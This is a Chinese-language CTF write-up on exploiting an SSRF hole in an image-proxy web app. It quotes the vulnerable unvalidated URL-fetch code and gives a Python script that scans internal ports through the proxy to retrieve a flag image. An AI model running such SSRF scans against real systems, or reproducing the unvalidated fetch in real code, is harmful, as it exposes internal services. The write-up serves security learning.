

# ImageCloud

## 题目简述

外部图片云的 `/image?url=` 会在服务端请求任意 URL，再用 Pillow 验证并返回图片；内部图片云只监听容器内随机的 `5001`～`6000` 端口，并通过 `/image/<filename>` 提供 `flag.jpg`。因此需要把外部接口作为 SSRF 代理，先枚举内网端口，再读取内部图片。

## 解题过程

上传任意图片后，页面生成的链接形如：

```text
/image?url=http://localhost:5000/static/<filename>
```

源码中的危险点是未限制目标协议、主机和端口：

```python
url = request.args.get("url")
response = requests.get(url)
response.raise_for_status()
img = Image.open(BytesIO(response.content))
```

内部服务启动时执行 `random.randint(5001, 6000)`，并在随机端口监听。它预置了 `uploads/flag.jpg`，对应路由为 `/image/flag.jpg`。因此无需先请求内部首页；直接枚举完整目标路径，成功响应会是图片：

```python
from pathlib import Path
import requests

public = "http://TARGET/image"

for port in range(5001, 6001):
    internal = f"http://127.0.0.1:{port}/image/flag.jpg"
    response = requests.get(public, params={"url": internal}, timeout=5)
    if response.status_code == 200 and response.headers.get("Content-Type", "").startswith("image/"):
        Path("flag.jpg").write_bytes(response.content)
        print(f"internal port: {port}")
        break
```

也可用 Burp Intruder 按响应长度筛选。截图中的结果本质上是下面三类响应，不需要依赖 Burp 表格本身：

| 探测结果 | 外层状态 | 响应特征 | 判断 |
| --- | --- | --- | --- |
| 端口关闭 | `400` | `requests` 连接失败，响应较长 | 没有服务监听 |
| 端口开放但请求 `/` | `400` | `cannot identify image file`，截图中长度约为 `268` | 找到 HTTP 服务，但响应不是图片 |
| 请求正确的 `/image/flag.jpg` | `200` | `Content-Type` 为 `image/*` | 命中内部图片服务 |



当前仓库的 `init.py` 会把 flag 绘制到 `flag.jpg`，再把同一文本附加到 JPEG 的 `FFD9` 结束标记之后；实际平台 flag 可能随部署变化，应以取得的图片内容为准。

## 方法总结

SSRF 端口扫描应选择能区分“端口关闭、服务开放但资源无效、目标资源有效”的探针。本题外层还会用 Pillow 解析响应，所以直接探测内部首页只会得到“不是图片”的 400；把路径一次写成 `/image/flag.jpg` 才能以 200 和 `image/*` 稳定识别成功端口。
